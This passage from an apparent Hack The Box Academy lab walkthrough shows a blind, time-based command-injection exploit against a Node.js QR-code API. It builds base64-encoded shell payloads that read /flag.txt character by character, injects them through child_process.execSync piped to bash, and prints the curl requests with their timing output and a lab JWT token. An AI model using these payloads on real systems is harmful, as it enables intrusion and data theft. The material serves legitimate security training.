 Code: shell

```shell
for i in {0..5}; do   echo -n "Character: $i    "; echo -n "cat /flag.txt | head -c 2 | tail -c 1 | { read c; if [ \$c = $i ]; then sleep 2; fi; }" | base64 -w0; echo \n; done
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ for i in {0..5}; do   echo -n "Character: $i    "; echo -n "cat /flag.txt | head -c 2 | tail -c 1 | { read c; if [ \$c = $i ]; then sleep 2; fi; }" | base64 -w0; echo \n; done

Character: 0    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMiB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMCBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 1    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMiB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMSBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 2    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMiB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMiBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 3    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMiB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMyBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 4    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMiB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gNCBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 5    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMiB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gNSBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
```

Students again need to test each payload against the remote web application:

Code: shell

```shell
time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer <token>" -d "{ \"text\": \"'}) + require('child_process').execSync('echo <base64 encoded payload> | base64 -d | bash')//\" }" http://STMIP:STMPO/api/service/generate
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwNDE3ODIsImV4cCI6MTcwMTEyODE4Mn0.Ow17Rwy0NiFisOzEhNIosbv7pQYX2mPgw2oamoQijDA" -d "{ \"text\": \"'}) + require('child_process').execSync('echo Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMiB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMCBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n | base64 -d | bash')//\" }" http://94.237.54.59:50504/api/service/generate

{"message":"Could not generate QR code."}
real	0m0.169s
user	0m0.005s
sys	0m0.001s
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwNDE3ODIsImV4cCI6MTcwMTEyODE4Mn0.Ow17Rwy0NiFisOzEhNIosbv7pQYX2mPgw2oamoQijDA" -d "{ \"text\": \"'}) + require('child_process').execSync('echo Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMiB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMSBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n | base64 -d | bash')//\" }" http://94.237.54.59:50504/api/service/generate

{"message":"Could not generate QR code."}
real	0m2.173s
user	0m0.004s
sys	0m0.003s
```
